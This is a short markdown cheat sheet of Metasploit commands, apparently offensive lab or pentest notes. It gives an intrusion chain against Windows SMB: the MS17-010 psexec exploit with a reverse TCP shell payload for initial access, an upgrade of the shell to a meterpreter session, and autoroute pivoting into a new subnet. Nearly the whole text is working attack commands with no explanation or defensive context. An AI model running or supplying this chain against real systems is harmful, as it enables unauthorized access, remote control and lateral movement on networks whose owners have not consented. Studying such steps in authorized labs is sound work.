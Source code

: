 ## Initial access

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/shell_reverse_tcp
set LPORT, LHOST, RPORT, RHOST
run
```

## Escalate to the meterpreter session:

```
sessions -l
use post/multi/manage/shell_to_meterpreter
set SESSION 1 
set LPORT 4444
run
sessions -i 2
```

## Pivoting to new subnet

```
use post/multi/manage/autoroute
```

